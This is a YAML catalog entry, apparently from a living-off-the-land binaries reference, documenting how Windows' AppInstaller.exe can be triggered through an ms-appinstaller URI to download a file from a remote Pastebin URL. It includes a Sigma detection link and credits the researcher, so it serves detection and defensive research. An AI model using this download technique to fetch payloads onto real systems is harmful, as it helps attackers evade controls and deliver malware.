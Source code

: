 ```yaml
---
Name: AppInstaller.exe
Description: Tool used for installation of AppX/MSIX applications on Windows 10
Author: 'Wade Hickey'
Created: 2020-12-02
Commands:
  - Command: start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw
    Description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/bdb00f403fd8ede0daa04449ad913200af9466ff/rules/windows/dns_query/win_dq_lobas_appinstaller.yml
Resources:
  - Link: https://twitter.com/notwhickey/status/1333900137232523264
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

